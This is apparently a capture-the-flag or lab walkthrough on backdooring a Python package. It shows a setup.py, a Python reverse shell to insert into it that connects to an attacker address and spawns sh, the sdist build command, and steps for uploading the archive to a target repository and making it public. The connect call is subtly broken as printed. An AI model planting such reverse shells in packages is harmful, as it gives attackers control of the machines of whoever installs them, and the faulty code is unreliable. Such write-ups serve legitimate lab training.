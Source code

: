 setup.py :

```python
import setuptools
with open("README.md", "r") as fh:
    long_description = fh.read()
setuptools.setup(
    name="mytest",
    version="0.0.1",
    author="John Doe",
    author_email="john@example.com",
    description="A simple package",
    long_description=long_description,
    long_description_content_type="text/markdown",
    url="https://github.com/",
    packages=setuptools.find_packages(),
    classifiers=[
        "Programming Language :: Python :: 3",
        "License :: OSI Approved :: MIT License",
        "Operating System :: OS Independent",
    ],
    python_requires='>=3.6',
)
```

we can insert a reverse shell from https://www.revshells.com/ :

```python
import sys,socket,os,pty
RHOST="10.10.14.10"
RPORT=9001
s=socket.socket()
s.connect( RHOST,RPORT)
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")
```

then create  a source distribution package :

python setup.py sdist

The archive "mytest-0.0.1.tar.gz" is build in dist directory.

We can download this archive  in the target repository :

![[Pasted image 20230904223842.png]]

We can then commit this change.

![[Pasted image 20230904223927.png]]

We can notice the lock next to the repository name :

![[Pasted image 20230904224005.png]]

This indicate a private repository. We can turn it as public : settings, then uncheck "This repository is pravate"
